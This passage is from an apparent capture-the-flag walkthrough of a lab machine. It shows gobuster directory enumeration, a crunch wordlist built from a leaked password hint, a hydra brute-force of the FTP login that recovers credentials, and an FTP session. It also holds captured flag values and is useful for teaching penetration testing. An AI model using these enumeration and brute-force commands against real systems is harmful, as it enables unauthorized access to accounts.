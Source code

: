gobuster port 65533:
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/doomsday-device]
└─$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -u http://192.168.56.181:65533/ -q -x php,html,txt
/secret               (Status: 301) [Size: 326] [--> http://192.168.56.181:65533/secret/]
{% endhighlight %}

Flag: `#FLAG2: 0a9025f72493da059a26db3acb0e2c42`

robots.txt:
{% highlight text %}
User-agent: *
Disallow: /nothingtoseehere
{% endhighlight %}

In the `nick` directory is a PCAP file. After loading the PCAP file into wireshark, we
can see some FTP credentials `creed:creed` these creds don't work with the FTP server
unfortunately. 

Moving on to the `staffblog` directory, we can see `CreedThoughts.doc` 
{% highlight terminal %}
Reminder: The IT guy told that my password is not safe enough. I wonder how he found out. Anyways, I added 3 digits to the end so it’s supersafe now. Nobody's gonna crack that, baby!
{% endhighlight %}

Here's a flag `#FLAG3: 50f1ff7bc72bb24c0082be83a8b8c497`

Let's generate a wordlist with crunch to fit the parameters "Creed" mentioned
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/doomsday-device]
└─$ crunch 8 8 -t creed%%% -o creedWordlist
{% endhighlight %}


Let's attack the FTP server login using the wordlist we just created:
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/doomsday-device]
└─$ hydra -l creed -P creedWordlist ftp://192.168.56.181 -V
[21][ftp] host: 192.168.56.181   login: creed   password: creed223
{% endhighlight %}

Let's take a look around the FTP server:
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/doomsday-device]
└─$ ftp 192.168.56.181                                                        130 ⨯
Connected to 192.168.56.181.
220 (vsFTPd 3.0.3)
Name (192.168.56.181:kali): creed
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0            2026 Nov 12 18:16 archive.zip
-rw-r--r--    1 0        0             176 Nov 30 09:05 reminder.txt
226 Directory send OK.
ftp> get reminder.txt
local: reminder.txt remote: reminder.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for reminder.txt (176 bytes).
226 Transfer complete.
176 bytes received in 0.01 secs (22.5351 kB/s)
ftp> get archive.zip
local: archive.zip remote: archive.zip